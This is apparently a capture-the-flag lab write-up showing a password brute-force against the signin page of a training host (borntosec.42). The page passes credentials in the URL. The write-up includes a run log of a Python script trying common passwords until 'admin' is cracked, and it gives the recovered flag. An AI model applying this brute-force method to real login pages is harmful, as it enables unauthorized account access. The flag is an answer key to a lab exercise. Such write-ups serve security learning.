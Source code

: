 # Bruteforcing a password
- a method of attempting to gain unauthorized access by systematically trying all possible combinations of characters until the correct password is found
- this trial-and-error attack can be time-consuming, especially if the password is long and complex
- https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force

<b>keywords</b>: bruteforce<br>
<b>attacked site</b>: http://borntosec.42/index.php?page=signin

## Exploit
After logging in with an empty username and password combination, we observe that the credentials are directly passed in the URL:
```
http://borntosec.42/index.php?page=signin&username=&password=&Login=Login#
```
This means we can attempt to brute force our way into the 'admin' account using a custom Python script and a file containing the 1000 most commonly used passwords:
``` shell
└─$ python3 bruteforce.py
Bruteforcing 'admin' on http://borntosec.42
Testing '123456': status 200
    --> diff KO
Testing 'password': status 200
    --> diff KO
Testing '12345678': status 200
    --> diff KO
Testing 'qwerty': status 200
    --> diff KO
Testing '123456789': status 200
    --> diff KO
Testing '12345': status 200
    --> diff KO
Testing '1234': status 200
    --> diff KO
Testing '111111': status 200
    --> diff KO
Testing '1234567': status 200
    --> diff KO
Testing 'dragon': status 200
    --> diff KO
Testing '123123': status 200
    --> diff KO
Testing 'baseball': status 200
    --> diff KO
Testing 'abc123': status 200
    --> diff KO
Testing 'football': status 200
    --> diff KO
Testing 'monkey': status 200
    --> diff KO
Testing 'letmein': status 200
    --> diff KO
Testing '696969': status 200
    --> diff KO
Testing 'shadow': status 200
   --> diff OK
'admin' cracked with password 'shadow'
```
After logging in with the acquired credentials, the flag is displayed:
```
The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```

## Flag
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
